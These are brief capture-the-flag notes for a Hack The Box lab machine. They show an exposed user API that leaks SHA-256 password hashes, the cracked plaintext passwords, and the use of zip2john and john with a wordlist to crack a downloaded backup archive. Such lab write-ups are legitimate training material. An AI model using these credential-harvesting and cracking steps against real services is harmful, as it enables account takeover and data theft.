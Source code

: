 Machine: https://app.hackthebox.com/machines/110
IP: 10.10.10.58

Port: 3000

User
```
tom
mark
rastating
```

http://10.10.10.58:3000/api/users
```
	
0	
_id	"59a7365b98aa325cc03ee51c"
username	"myP14ceAdm1nAcc0uNT"
password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
is_admin	true
1	
_id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
2	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
3	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```

Password is SHA256

```
myP14ceAdm1nAcc0uNT:manchester
tom:spongebob
mark:snowflake
rastating:
```

Login as admin and download backup file

Decode it as base64 and output file type as PKZIP archive in cyberchef

https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)Detect_File_Type(true,true,true,true,true,true,true)

Crack PKZIP file using zip2john

```bash
zip2john pk.zip > john.txt
john john.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
